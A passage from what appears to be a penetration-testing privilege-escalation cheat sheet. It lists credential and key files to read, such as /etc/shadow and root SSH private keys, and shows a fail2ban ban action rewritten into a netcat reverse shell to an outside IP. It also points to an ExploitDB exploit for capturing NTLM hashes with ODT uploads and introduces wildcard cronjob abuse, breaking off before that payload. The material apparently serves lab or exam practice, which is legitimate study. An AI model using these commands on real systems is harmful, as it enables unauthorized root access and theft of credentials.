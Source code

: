 ```bash
/etc/passwd
/etc/shadow
/root/.ssh/id_rsa
/root/.ssh/id_ecdsa
/root/.ssh/id_ed25519
/home/user/.ssh/id_rsa
/home/user/.ssh/id_ecdsa
/hom/user/.ssh/id_ed25519
/proc/self/environ
/proc/self/cmdline
/var/www/html/index.php # Or any interesting files you didn't have access to with gobuster
/home/user/.bash_history
/root/.bash_history
/etc/ssh/sshd_config # See who's allowed to ssh into the box
```

#### Fail2Ban

If you're a part of the fail2ban group, check out the main configuration file which can be found at /etc/fail2ban/jail.conf. Look for how to get banned, as well as what the ban action is. If you can modify the ban file or action directly, you can make it give you a reverse shell onto the box as root.

```bash
#actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban = /usr/bin/nc 192.168.45.163 873 -e /bin/sh
```

#### Stop a Backgrounded Process

```bash
ps -eaf | grep pspy
kill 1713
# or
jobs
kill %1
# or
fg %1 # then Ctrl+C
```

#### ODT Files to Capture NTLM Hash

If you can upload ODT files to a Windows backend, consider making an ODT file that reaches out to your server that is listening for hashes. You can do this easily with 44564 on ExploitDB.

#### Wildcard Cronjobs

If you see a cronjob with a wildcard, you may need to get creative for privescs. Use GTFOBins for inspiration, and just Google around if you're stuck. In this case, the cronjob was

```bash
cd /opt/admin && tar -zxf /tmp/backup.tar.gz *
```

In order to append an abuse command to the end of the cronjob, this is what I did:
